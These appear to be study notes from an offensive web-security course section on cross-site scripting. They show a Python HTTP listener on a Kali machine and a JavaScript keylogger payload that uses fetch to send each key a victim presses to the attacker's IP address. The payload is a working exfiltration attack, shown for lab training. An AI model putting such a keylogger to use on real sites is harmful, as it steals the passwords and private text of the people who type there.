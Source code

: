 The victim rendered the page, but nothing happened. This is because we're only logging the keystrokes to the console and we don't have access to the victim's browser console. We're going to need to find a way to exfiltrate their keystrokes. This is where the Fetch API comes in handy.

The _Fetch_[5](https://portal.offsec.com/courses/web-200-28380/learning/cross-site-scripting-introduction-and-discovery-30964/javascript-basics-for-offensive-uses-31294/useful-apis-31082#fn-local_id_635-5) API allows us to have the user's browser make network requests for remote resources. This could be for fetching documents, user information, images, and much more. The Fetch API call is non-blocking, which means that the UI will not be locked up while the request is made and the response is returned. This also means that Fetch doesn't return the data immediately, and instead, it returns a _promise_[6](https://portal.offsec.com/courses/web-200-28380/learning/cross-site-scripting-introduction-and-discovery-30964/javascript-basics-for-offensive-uses-31294/useful-apis-31082#fn-local_id_635-6) to complete the execution. If we need to access the response, we use the _then_ method and pass in a function to execute when the response is available.

However, we don't always need the response. For example, we can use it as a way to exfiltrate data from the user's browser to our Kali machine. As long as the request is sent to our server, we don't need to handle the response in the user's browser. Let's start a Python HTTP listener on Kali to log requests to the terminal by running python3, passing the http.server module using the -m flag along with 80 as the port number.

```bash
python3 -m http.server 80
```

![[Pasted image 20240720233252.png]]
Now we'll go back to using the console window in a blank tab and make an HTTP call to our Kali IP using fetch.
```js
fetch('http://192.168.45.215/hello')
```
in the `about:blank` console
![[Pasted image 20240720233549.png]]
We receive an error stating that "The Same Origin Policy disallows reading the remote resource". However, if we check the Python server logs, we find that we received a request!
![[Pasted image 20240720233847.png]]
Original Keylogging payload
```js
function logKey(event){
	console.log(event.key)
}

document.addEventListener('keydown', logKey);
```
The problem we ran into with the payload was that _console.log_ doesn't exfiltrate data. Let's replace this line with _fetch_ and use the Eval application to have the victim execute our code.

We'll change the _console.log_ line to run fetch("http://192.168.45.215/k?key=" + event.key);. This will make an HTTP request to our Kali machine and include the key pressed. Let's type this into the Eval application and render with the "Simulate keystrokes" option checked in the XSS Sandbox.

Modified `js` script for Keylogging payload
```js
function logKey(event){
	fetch("http://192.168.45.215/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
```

